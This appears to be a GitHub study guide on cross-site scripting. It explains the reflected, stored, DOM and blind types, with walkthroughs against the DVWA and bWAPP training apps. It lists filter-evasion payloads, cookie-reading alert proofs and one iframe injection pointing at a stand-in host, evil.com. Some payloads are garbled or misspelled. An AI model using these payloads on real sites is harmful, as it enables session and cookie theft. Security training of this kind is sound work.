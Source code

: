 # Cross Site Scripting (XSS)

Cross—site scripting is a web security vulnerability in which attacker inject malicious script into the website or web application. Whenever users access these websites via their browser then attacker executing malware whenever the site is loaded, thus attackers retrieve sensitive information from the users like cookie values, session tokens and other sensitive information.

![alt text](assets/typesofxss.png)

## Reflected XSS

- Reflected XSS: Interaction from the user required.
- When applications receives data from a untrusted source and includes the data within immediate responses in an unsafe way.

1. User Interaction
2. Website Response
3. Code Execution
![alt text](assets/reflectedxss.png)

###### Impact of XSS
- Data Theft
- Account Hijacking
- Malware Installation

###### Mitigations of XSS
- Input Validation
- Output Encoding
- Content Security Policy (CSP)

###- Hands-on DVWA
![alt text](assets/xssrlow.png)
![alt text](assets/xssrlow2.png)
Submit the code - `<script>alert('XSS-Reflected');</script>`
### Reflected XSS Success!!!

### Some Tips
- If the webpage is allowing or executing the script blocks, but explicitly blocking the `<script>` tag, then we can use other methods/ payloads for getting things done...
1. `< script>alert (document. cookies) < / script >` - Spaces between `< >` can help.
2. `<noscript><p title="</noscript><img src=x onerror=alert(l)>">`
3. `<img src="s" onerror="alert(XSS)">` - alert on calling a non-existing source of the image.
4. `< input type="text" name="state" value="INPUT FROM USER" >`
5. `<IFRAME src=javascript:alert("Hackingmonks");"></IFRAME>`

```<img src=x:alert(alt) onerror=eval(src) alt=xss>
<iframe <><a href=javascript&c010n;a1ert(document.cookie)>C1ick Here</a>=&gt;&lt;/iframe&gt;
"><img src="xasdasdasd" onerror="document.write( '<iframe src=http://evil.com></iframe>')" / >
<a href="javascript&#x3ax=1;a1ert(1)">c1ick
AutoFocus r 'ale'%2B'rt'
"><img src=x cookie) ; >
```


## Stored XSS

Stored XSS arises when an applications receives data from an untrusted source and includes that data within its later responses in an unsafe way.
- Steal Cookie Info
- Session ID
- Dedicated Delivery of browser based attack.

##### Identify XSS
1. Vulnerable Parameters
2. Manual Code Review
3. Dynamic Content
4. Third-Party Libraries

#### Steps for Stored XSS
1. Attacker Finds Vulnerability
2. Attacker Injects Script
3. Script is stored
4. Victim Access Content
5. Compromised User Account

#### Impact of Stored XSS
1. Simple Script Injection
2. CSRF - Cross Site Request Forgery
3. Data Exfiltration
4. Browser Hijacking

#### Mitigations of XSS
- Input Validation
- Output Encoding
- Content Security Policy (CSP)
- Regular Security Updates


### Hands-On Stored XSS
![alt text](assets/xssslow.png)
![alt text](assets/xsslows.png)
- We add script in the value that get's stored in the DataBase
- Whenever some user tries to access the page, the script get's executed.
### Stored-XSS Success!

## DOM XSS
A DOM-based XSS attack is possible if the web application writes data to the Document Object Model without proper sanitization the attacker can manipulate this data to include XSS content on the web page, for example malicious JavaScript code.
#### What is DOM:
DOM stands for Document Object Model; it's a model that browsers use to render a web page. The DOM represents a web page's structure; it defines the basic properties and behavior of each HTML element and helps scripts dynamically access and modify the page's content, structure, and style.
![alt text](assets/domxss-commonsrc.png)
![alt text](assets/xssdom-sink.png)
![alt text](assets/domxsssteps.png)

#### Impact of DOM-XSS
1. Data Theft
2. Account Hijacking
3. Website Defacement
4. Malware Distribution

#### Mitigations of XSS
- Input Validation
- Output Encoding
- Content Security Policy (CSP)
- Regular Security Updates


### Hands-on DOM-XSS
#### Low
![alt text](assets/xssdomlow.png)
Payload - `http://localhost/dvwa/vulnerabilities/xss_d/?default=%3Cscript%3Ealert(document.cookie)%3C/script%3E`
> Sometimes - you think too much for a small thing and fail identifying it easily.

#### Medium
![alt text](assets/xssdommed.png)
Payload - `http://localhost/dvwa/vulnerabilities/xss_d/?default=</select><img src='#' onclick=alert(document.cookie)>`

#### High
![alt text](assets/xssdomhigh.png)
Payload - `http://localhost/dvwa/vulnerabilities/xss_d/?default=English&<script>alert(document.cookie)</script>`

References: https://medium.com/hacker-toolbelt/dvwa-1-9-xss-dom-ae1a29018f66

## Blind XSS
> Server Side Vulnerability
![alt text](assets/blindxss.png)
![alt text](assets/blindxss1.png)

#### Exploit Blind XSS
1. Inject Malicious Script
2. Server-Side Execution
3. Data Manipulation or Information Disclosure

#### Mitigations of XSS
- Input Validation
- Output Encoding
- Content Security Policy (CSP)
- Regular Security Updates

Tool - https://xsshunter.trufflesecurity.com/

## BWAPP    
#### XSS - Reflected (GET) - Low
![alt text](assets/xssrefget1.png)
![alt text](assets/xssrefget2.png)
Payload Firstname - `<script>alert('XSSREFGET')</script>` Lastname - `<script>alert(document.cookie)</script>`

```
Also, when you write strings in the alert('') prefer not to test with strings particularly instead use values inside alert like "document.cookie", numerical int, coz (',',",",) these quotes, double-quotes can actually invite unintentional errors in the payload, on the other hand values with no quotes have lesser chance of having false errors, which gives better chance for testing the application security and application errors than the payload errors.
```

- _Happy XSS Hacking_